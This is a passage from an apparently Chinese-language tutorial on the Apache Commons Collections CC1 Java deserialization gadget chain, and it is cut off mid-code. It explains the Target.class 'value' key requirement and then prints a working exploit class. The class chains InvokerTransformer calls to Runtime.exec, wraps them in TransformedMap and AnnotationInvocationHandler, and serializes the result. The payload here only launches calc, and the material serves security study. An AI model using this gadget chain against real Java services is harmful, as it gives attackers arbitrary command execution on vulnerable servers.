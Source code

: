 先是 name = memberValue.getKey() 这就是我们前面构造 transformedMap 时候的 hashmap ，这里它会取 key，我们前面给的 key 值就是 key，下一步它会判断 memberType = memberTypes.get(name) ，它会去 Target.class 中找是不是有这个名字为 key 的 Type，如果不为空才能继续运行，很明显 Target.class 是没有名字叫 key 的 Type 的，但是它有一个 value Type。

```java
public @interface Target {
    ElementType[] value();
}
```
所以我们将 map.put("key", "value"); 改成 map.put("value", "value")

最后，我们需要使用 ConstantTransformer 包裹一个 Runtime.class ，这个方法会原样返回参数，构成完整的 ChainedTransformer 数组。

完整代码

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import javax.xml.crypto.dsig.Transform;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "value");
        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> annotationInvocationConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationConstructor.setAccessible(true);
        Object o = annotationInvocationConstructor.newInstance(Target.class, transformedMap);
        serialize(o);
        unserialize("ser");

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser"));
        oos.writeObject(obj);
    }

```